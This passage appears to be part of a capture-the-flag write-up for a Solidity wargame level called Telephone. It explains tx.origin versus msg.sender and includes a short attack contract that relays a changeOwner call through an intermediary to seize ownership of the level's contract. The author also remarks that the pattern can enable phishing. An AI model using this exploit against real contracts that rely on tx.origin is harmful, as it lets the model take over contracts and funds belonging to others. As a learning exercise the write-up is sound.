 I saw the difference between tx.origin and msg.sender. Tx.origin refers to the original account that started the transfer. Msg.sender refers to the immediate account which did the transfer. [Here is a good explaination](https://www.oreilly.com/library/view/solidity-programming-essentials/9781788831383/3d3147d9-f79f-4a0e-8c9f-befee5897083.xhtml)

So in this case we just need it so that the original sender is not the immediate sender too. Which  means we need to send the ether via a contract so that tx.origin will be our address and msg.sender will be the address of our deployed contract.

My code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

interface Telephone{
    function changeOwner(address _owner) external;
}

contract phonyphone{
    address public myAddress;
    Telephone public object=Telephone(0xA3a30058F1EcB31d0735B579588479B0B0d517b1);

    function getaddr(address _address) public{
        myAddress=_address;
    }

    function caller() public{
        object.changeOwner(myAddress);
    }
}
```

Pretty straight forward, I create an interface of the level's contract and then create a contract of my own which takes our address using getaddr() and then gives it to the level's contract function called changeOwner(). 

Since tx.origin and msg.sender may represent two different addresses, It can be used to perform phishing attacks. Note from author:

![](/images/ether/GfEjlns.png)

# Token
